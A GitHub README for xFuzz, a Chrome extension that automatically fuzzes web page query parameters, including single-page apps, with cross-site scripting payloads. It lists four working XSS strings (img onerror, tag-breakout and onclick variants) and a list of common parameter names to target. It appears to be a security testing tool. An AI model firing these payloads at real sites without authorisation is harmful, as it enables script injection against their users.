 # xFuzz

XSS query param fuzzer in a chrome extension. Works on Single Page Applications (SPAs).

![xfuzz](docs/xfuzz.gif)

## Details

1. Fires up a new window
2. Fires up a couple of tabs
3. Fuzzes each query string parameter with XSS payloads
4. Once the window is finished loading it trys a different payload.

Payloads:

```
var payloads = ["<img onerror=prompt(1) src=x>", "javascript://'/</title></style></textarea></script>--><p\" onclick=alert()//><img onerror=prompt(1) srx=x>*/alert()/*",
"--></script></title></style>\"/</textarea><a' onclick=alert()//><img onerror=prompt(1) srx=x>*/alert()/*", "'; alert(1)"]
```

Extra Params
```
var commonQuery = ['admin', 'tag', 'id', 'user', 'userid', 'debug', 'page', 'redirect', 'next', 'callback', 'q']
```

## Contact

c0nrad@c0nrad.io